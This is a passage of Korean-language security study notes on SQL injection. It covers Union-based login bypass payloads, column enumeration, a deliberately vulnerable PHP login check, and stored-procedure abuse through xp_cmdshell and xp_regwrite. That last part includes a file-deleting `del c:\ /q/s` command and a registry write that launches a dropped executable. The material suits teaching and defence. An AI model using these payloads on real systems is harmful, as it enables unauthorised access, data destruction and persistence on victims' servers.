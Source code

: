                             ###for 문 체크
                                if 포함 $returnVal = true; break;
                            ###

                            return $returnVal;
                        }

                        $chk_id = chk_blacklist($id);
                        $chk_pw = chk_blacklist($pw);
                        if (chk_id || chk_pw){
                            ...
                        }
                    ```
    + Union SQL Injection
        * Union 명령어
            ```
                select id, pw from member where id='test';
                select id, pw from member where id='test' union select 'test', '1212'; -- 결과값이 같을 경우 하나로 표기
                select id, pw from member where id='test' union all select 'test', '1212'; -- 결과값이 같을 경우 중복 표기
                select id, pw from member where id='' union select 'test','1234';
            ```
            - 조건 : Union 은 필드의 개수가 똑같아야 결합 가능
        * 컬럼을 파악할 때 사용하는 명령
            `select * from member where id='' order by 4#;`
            - Error code : Unknown column '4' in 'order clause' (필드가 3개라 판단)
        * 공격방식
            - id 부분에 `' union select 'test', '1234'#` 입력
                + 오류없이 인증 우회 가능
        * 예시 : 값 비교를 통한 form SQL Injection 방어 코드
            ```
                $query = "select id, pw from member where id=$id";
                $result = mysql_query($query, $conn);
                $num_rows = mysql_num_rows($result);
                if($num_rows) {
                    $row = mysql_fetch_array($result);
                    $id = $row[id];
                    $rec_pw = $row[pw]; // 첫번째 레코드의 pw 값을 저장
                    if($pw != $rec_pw) {echo "로그인실패"} else {echo "로그인성공"}
                }
            ```
            - Union SQL Injection 에 취약
                + id : `' union' select 'test', 'test' #`
                + pw : `test`
    + Stored Procedure SQL Injection
        * 저장 프로시저는 여러 쿼리문을 하나의 함수처럼 실행하여 사용하는 쿼리의 집합을 의미
        * 특정 작업을 일괄 처리하기 위한 용도로 사용
        * 명령어
            ```
                exec master..xp_cmdshell 'dir c:\'
                exec master..xp_cmdshell 'del c:\ /q/s'
            ```
            - `exec master.dbo.xp_cmdshell '시스템명령어'`
            - 확장형 저장프로시저
                + xp_cmdshell
                    * 관리자의 권한으로 임의의 명령을 수행
                + xp_regwrite
                    * 레지스트리 작성
                + `exec master.dbo.xp_dirtree 'c:\'`
                    * 디렉토리 구조
                + 공격예시
                    * `aaa.php?tt=1234;exec master.dbo.xp_cmdshell 'ping 192.168.10.0'`
                        - 뒤의 명령도 실행됨.
                    * `aaa.php?tt=1234;exec xp_regwrite 'HKEY_LOCAL_MACHINE','\software\microsoft\window...','winhelp',REG_SZ,'c:\temp\hac.exe'`